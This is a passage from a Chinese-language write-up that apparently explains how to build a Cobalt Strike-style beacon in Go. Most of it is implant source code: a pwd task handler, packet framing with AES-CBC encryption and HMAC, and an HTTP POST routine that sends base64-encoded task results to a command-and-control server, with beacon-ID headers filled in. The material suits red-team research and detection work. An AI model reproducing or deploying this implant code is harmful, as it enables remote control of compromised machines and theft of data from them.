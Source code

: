  
得到实际的post data

  * 

    
    
    AAAAMOoMW516MwI6+UQGIx5LuEleeFVzVueZ10pEkAOLNHV3HUByBodgsliVpwUoEH1VgA== 

  
然后使用python脚本解析返回的数据  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134456.png)  
 **1.3.4** **使用** **golang** **封包** **task** **返回的任务数据 ****  
**以执行pwd为例：  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     func PWD(){    var finalPacket []byte = nil    pwd, err := os.Getwd()    result, err := filepath.Abs(pwd)    if err != nil {        finalPacket = packet.MakePacket(13,[]byte(err.Error()))    }else {        finalPacket = packet.MakePacket(19,[]byte(result))    }    packet.PushResult(finalPacket)}

  
1\. MakePacket封装send data

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func MakePacket(replyType int, b []byte) []byte {    config.Counter += 1    buf := new(bytes.Buffer)    counterBytes := make([]byte, 4)    binary.BigEndian.PutUint32(counterBytes, uint32(config.Counter))    buf.Write(counterBytes)  
        if b != nil {        resultLenBytes := make([]byte, 4)        resultLen := len(b) + 4        binary.BigEndian.PutUint32(resultLenBytes, uint32(resultLen))        buf.Write(resultLenBytes)    }  
        replyTypeBytes := make([]byte, 4)    binary.BigEndian.PutUint32(replyTypeBytes, uint32(replyType))    buf.Write(replyTypeBytes)  
        buf.Write(b)  
        encrypted, err := crypt.AesCBCEncrypt(buf.Bytes(), config.AesKey)    if err != nil {        return nil    }    // cut the zero because Golang's AES encrypt func will padding IV(block size in this situation is 16 bytes) before the cipher    encrypted = encrypted[16:]  
        buf.Reset()  
        sendLen := len(encrypted) + crypt.HmacHashLen    sendLenBytes := make([]byte, 4)    binary.BigEndian.PutUint32(sendLenBytes, uint32(sendLen))    buf.Write(sendLenBytes)  
        buf.Write(encrypted)  
        hmacHashBytes := crypt.HmacHash(encrypted)    buf.Write(hmacHashBytes)  
        return buf.Bytes()}

  
2\. PushResult封装http post

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func HttpPost(url string, data []byte) error {    httpRequest := req.New()    postString := base64.StdEncoding.EncodeToString(data)  
        for k,v := range config.Postheader{        if strings.Contains(v,"%ENCBEACONID%"){            config.Postheader[k] = strings.Replace(v, "%ENCBEACONID%", base64.StdEncoding.EncodeToString([]byte(strconv.Itoa(config.ClientID))), -1 )        }    }  
        if len(config.PostPrepend) !=0 {        postString = config.PostPrepend + postString    }    if len(config.PostAppend) !=0 {        postString = postString + config.PostAppend    }    resp, err := httpRequest.Post(url, postString, config.Postheader)    if err != nil {        fmt.Printf("[-] Post http data error: %s\n", err.Error())        return err    }  
        defer resp.Response().Body.Close()    if resp.Response().StatusCode != http.StatusOK {        fmt.Printf("[-] Post http response status code: %d\n", resp.Response().StatusCode)        return err    }    return nil}
